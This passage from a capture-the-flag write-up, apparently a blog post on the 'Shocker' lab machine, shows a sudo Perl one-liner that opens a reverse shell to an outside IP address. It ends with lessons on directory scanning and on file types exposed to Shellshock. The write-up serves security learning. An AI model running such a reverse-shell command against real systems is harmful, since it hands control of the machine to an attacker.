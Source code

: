Then I realised that the payload I copied wasn't the syntax for a perl file - it was just for an inline perl command in bash. So I didn't even need a file to execute from!

I ran this command instead:

```bash
shelly@Shocker:/tmp$ sudo perl -e 'use Socket;$i="10.10.16.211";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And got a shell!

![](/assets/images/blogs/Pasted image 20210614105016.png)

That's the box!

![](/assets/images/blogs/Pasted image 20210614105225.png)

# Key Lessons
 
- `gobuster` does not automatically check for directories! This isn't an issue on most webservers, as often `/cgi-bin` will redirect to `/cgi-bin/`, but if not you must use the `-f` flag or another tool such as `dirsearch`
- Shellshockable file extensions include `.cgi`, `.sh`, and `.txt`